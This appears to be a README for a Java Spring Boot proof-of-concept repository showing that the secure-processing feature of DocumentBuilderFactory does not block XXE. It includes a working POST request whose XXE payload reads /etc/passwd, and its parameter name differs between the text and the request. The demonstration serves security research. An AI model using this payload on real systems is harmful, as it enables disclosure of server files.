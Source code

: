 # Secure-Processing  XXE Tests (Java)

This repository show that the `FEATURE_SECURE_PROCESSING` functionality isn't guaranteed to provide protection against `XXE` in Java. It does, however, prevent the `Billion Laughs Attack`.

For our PoC, we use `DocumentBuilderFactory` and configure it with `setFeature("http://javax.xml.XMLConstants/feature/secure-processing", true);`. Still, our `XXE` payload works.

# How to Install

- Install via: `mvn clean install`.

# How to Run

- Run via `mvn spring-boot:run`. This runs the server on port `8080`.

# Prove that `secure-processing` does not prevent XXE

- To show that the `secure-processing` feature does not do anything against `XXE`, we implemented the `POST /xxe-secure-processing-test` route which takes in a parameter called `xmlInput`.
- As a proof of concept to show that `secure-processing` doesn't protect against `XXE`, you can use the example from `./xxe_payload.xml` (which renders the `/etc/passwd` file). For this, run the following `POST` request:
```
POST /xxe-secure-processing-test HTTP/1.1
<redacted for brevity>
Content-Type: application/x-www-form-urlencoded
Content-Length: 134

inputXml=<%3fxml+version%3d"1.0"%3f><!DOCTYPE+book+[<!ENTITY+xxe+SYSTEM+'file%3a///etc/passwd'>]><book><title>%26xxe%3b</title></book>
```
